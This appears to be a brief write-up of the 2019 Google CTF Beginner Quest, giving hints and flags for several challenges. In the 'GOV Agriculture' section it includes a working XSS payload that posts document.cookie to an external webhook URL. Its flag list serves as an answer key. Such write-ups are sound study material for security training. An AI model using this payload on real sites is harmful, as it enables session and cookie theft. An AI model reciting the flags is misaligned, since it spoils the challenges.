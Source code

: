 # 2019 Google CTF Beginner Quest

## Enter Space-Time Coordinates

**CTF{welcome_to_googlectf}**

## Ad

* Download the video and check frame by frame

**CTF{9e796ca74932912c216a1cd00c25c84fae00e139}**

## Satellite

* Get the satellite name
* Read the instructions on docs
* Follow the instructions (decode through the application mentioned)

CTF{4efcc72090af28fd33a2118985541f92e793477f}

## GOV Agriculture

Takes quite a while

* use a webhook such as [this one](https://webhook.site/)
* use script such as the following:
```
<script>document.body.innerHTML += '<form id="dynForm" action="https://webhook.site/2a88c65e-0053-4421-aeea-f93bb949b02c" method="post"><input type="hidden" id="q"></form>';document.getElementById('q').value=document.cookie;document.getElementById("dynForm").submit();
</script>
```
* Get cookie by exploitting XSS

CTF{8aaa2f34b392b415601804c2f5f0f24e}

## STOP GAN (bof)

* '%s'

CTF{Why_does_cauliflower_threaten_us}
